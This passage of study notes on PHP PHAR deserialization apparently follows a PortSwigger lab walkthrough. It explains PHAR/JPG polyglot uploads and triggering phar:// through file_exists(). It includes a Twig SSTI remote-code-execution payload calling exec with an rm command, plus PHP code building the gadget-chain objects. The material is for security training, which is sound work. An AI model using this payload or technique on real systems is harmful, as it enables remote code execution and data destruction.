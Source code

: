 In the case of obviously dangerous FS methods, such as `include()` or `fopen()`:
- websites are likely to have implemented counter-measures
	- to reduce the potential for them to be used maliciously
	- However, methods such as `file_exists()`, which are not so overtly dangerous, 
	  may not be as well protected.

This technique also requires you to:
- upload the `PHAR` to the server somehow

One approach is to:
- use an image upload functionality
- If you are able to create a polyglot file, with a `PHAR` masquerading as a simple `JPG`:
- you can sometimes bypass the website's validation checks. 
- If you can then force the website to load this polyglot "`JPG`" from a `phar://` stream:
  =>
  any harmful data you inject via the `PHAR` metadata will be deserialized
- As the file extension is not checked when PHP reads a stream
  =>
  it does not matter that the file uses an image extension.

As long as the class of the object is supported by the website:
- both the `__wakeup()` and `__destruct()` magic methods 
	- can be invoked in this way, 
	  allowing you to potentially kick off a gadget chain using this technique

### Using PHAR deserialization to deploy a custom gadget chain
1. Observe that the website has a feature for uploading your own avatar, which only accepts `JPG` images. 
   Upload a valid `JPG` as your avatar. 
   Notice that it is loaded using `GET /cgi-bin/avatar.php?avatar=wiener`.
2. In Burp Repeater, request `GET /cgi-bin` to find an index that shows a `Blog.php` and `CustomTemplate.php` file. 
   Obtain the source code by requesting the files using the `.php~` backup extension.
3. Study the source code and identify the gadget chain involving the `Blog->desc` and `CustomTemplate->lockFilePath` attributes.
4. Notice that the `file_exists()` filesystem method is called on the `lockFilePath` attribute.
5. Notice that the website uses the Twig template engine. 
   You can use deserialization to pass in an [server-side template injection](https://portswigger.net/web-security/server-side-template-injection) (SSTI) payload. 
   Find a documented SSTI payload for remote code execution on Twig, and adapt it to delete Carlos's file:
   `{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}`
6. Write a some PHP for creating a `CustomTemplate` and `Blog` containing your SSTI payload:
   
```php
class CustomTemplate {}
class Blog {}
$object = new CustomTemplate;
$blog = new Blog;
$blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}';
$blog->user = 'user';
$object->template_file_path = $blog;
```
